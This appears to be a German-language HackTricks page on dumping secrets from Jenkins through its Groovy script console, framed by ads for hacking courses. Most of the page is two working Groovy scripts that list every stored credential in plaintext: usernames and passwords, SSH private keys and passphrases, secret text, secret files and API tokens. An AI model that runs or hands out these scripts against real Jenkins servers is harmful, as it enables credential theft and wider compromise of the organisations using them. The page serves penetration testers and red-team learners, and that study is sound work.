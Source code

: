 # Jenkins Dumping Secrets from Groovy

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

{% hint style="warning" %}
Beachte, dass diese Skripte nur die Geheimnisse innerhalb der `credentials.xml`-Datei auflisten, aber **Build-Konfigurationsdateien** möglicherweise auch **weitere Anmeldeinformationen** enthalten.
{% endhint %}

Du kannst **alle Geheimnisse aus der Groovy Script-Konsole** in `/script` dumpen, indem du diesen Code ausführst.
```java
// From https://www.dennisotugo.com/how-to-view-all-jenkins-secrets-credentials/
import jenkins.model.*
import com.cloudbees.plugins.credentials.*
import com.cloudbees.plugins.credentials.impl.*
import com.cloudbees.plugins.credentials.domains.*
import com.cloudbees.jenkins.plugins.sshcredentials.impl.BasicSSHUserPrivateKey
import org.jenkinsci.plugins.plaincredentials.StringCredentials
import org.jenkinsci.plugins.plaincredentials.impl.FileCredentialsImpl

def showRow = { credentialType, secretId, username = null, password = null, description = null ->
println("${credentialType} : ".padLeft(20) + secretId?.padRight(38)+" | " +username?.padRight(20)+" | " +password?.padRight(40) + " | " +description)
}

// set Credentials domain name (null means is it global)
domainName = null

credentialsStore = Jenkins.instance.getExtensionList('com.cloudbees.plugins.credentials.SystemCredentialsProvider')[0]?.getStore()
domain = new Domain(domainName, null, Collections.<DomainSpecification>emptyList())

credentialsStore?.getCredentials(domain).each{
if(it instanceof UsernamePasswordCredentialsImpl)
showRow("user/password", it.id, it.username, it.password?.getPlainText(), it.description)
else if(it instanceof BasicSSHUserPrivateKey)
showRow("ssh priv key", it.id, it.passphrase?.getPlainText(), it.privateKeySource?.getPrivateKey()?.getPlainText(), it.description)
else if(it instanceof StringCredentials)
showRow("secret text", it.id, it.secret?.getPlainText(), '', it.description)
else if(it instanceof FileCredentialsImpl)
showRow("secret file", it.id, it.content?.text, '', it.description)
else
showRow("something else", it.id, '', '', '')
}

return
```
#### oder dieses hier:
```java
import java.nio.charset.StandardCharsets;
def creds = com.cloudbees.plugins.credentials.CredentialsProvider.lookupCredentials(
com.cloudbees.plugins.credentials.Credentials.class
)

for (c in creds) {
println(c.id)
if (c.properties.description) {
println("   description: " + c.description)
}
if (c.properties.username) {
println("   username: " + c.username)
}
if (c.properties.password) {
println("   password: " + c.password)
}
if (c.properties.passphrase) {
println("   passphrase: " + c.passphrase)
}
if (c.properties.secret) {
println("   secret: " + c.secret)
}
if (c.properties.secretBytes) {
println("    secretBytes: ")
println("\n" + new String(c.secretBytes.getPlainData(), StandardCharsets.UTF_8))
println("")
}
if (c.properties.privateKeySource) {
println("   privateKey: " + c.getPrivateKey())
}
if (c.properties.apiToken) {
println("   apiToken: " + c.apiToken)
}
if (c.properties.token) {
println("   token: " + c.token)
}
println("")
}
```
{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
